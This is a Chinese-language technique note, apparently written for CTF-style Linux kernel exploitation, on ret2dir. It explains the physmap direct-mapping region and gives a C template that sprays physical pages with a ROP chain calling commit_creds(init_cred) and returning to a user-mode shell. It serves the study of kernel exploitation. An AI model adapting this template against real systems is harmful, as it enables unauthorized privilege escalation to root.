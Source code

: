 # ret2dir

## 概述

查看内存映射[mm.txt](https://elixir.bootlin.com/linux/v5.0/source/Documentation/x86/x86_64/mm.txt)

可以看到这样一块64TB大小的映射区

```
ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
```

这块空间将物理内存映射到虚拟地址空间中，内核可以直接访问，而在用户空间中，内存的映射也会在这块区域中找到

那么在整个虚拟内存中，用户空间和内核空间会存在相同的物理空间映射到不同的虚拟内存，通过这块空间，内核就可以直接访问用户空间

## ROP攻击

在物理映射页可执行的版本中可以直接写入shellcode，否则只能泄露地址然后部署ROP

1. 利用物理页喷射，分配出大量的内存页，并在这些内存页上部署ROP链
2. 利用栈迁移到 ffff888000000000 ~ ffffc87fffffffff 上，可以选用0xffff888000000000 + 0x3000000~0x7000000的页
3. 当迁移的内存页在前面喷射的内存页中，即可劫持执行流提权

## 示例模板

```C
void ret2dir(u64 *page)
{
    int i = 0;
    // 简单gadget，通常用于处理栈迁移或者其他
    for (; i < 0x10; i++)
    {
        page[i] = ret;
    }

    // 提权
    page[i++] = pop_rdi_ret;
    page[i++] = init_cred;
    page[i++] = commit_creds;

    // 恢复用户态
    page[i++] = swapgs_restore_regs_and_return_to_usermode;
    page[i++] = 0;
    page[i++] = 0;
    page[i++] = &kernel_shell;
    page[i++] = user_cs;
    page[i++] = user_rflags;
    page[i++] = user_sp;
    page[i++] = user_ss;
}

// 物理页喷射
#define spray_max 30000 // 喷射的物理页数量，通常在15000~30000合适，在内存足够的情况下越多越好
u64 *physmap_spray_arr[spray_max];
page_size = sysconf(_SC_PAGESIZE);
physmap_spray_arr[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
ret2dir(physmap_spray_arr[0]);
for (int i = 1; i < spray_max; i++)
{
    physmap_spray_arr[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (physmap_spray_arr[i] == MAP_FAILED)
    {
        printf("mmap failed\n");
        exit(0);
    }
    memcpy(physmap_spray_arr[i], physmap_spray_arr[0], page_size);
}
printf("mmap success\n");
```

## 杂项

获取物理页大小`sysconf(_SC_PAGESIZE);`
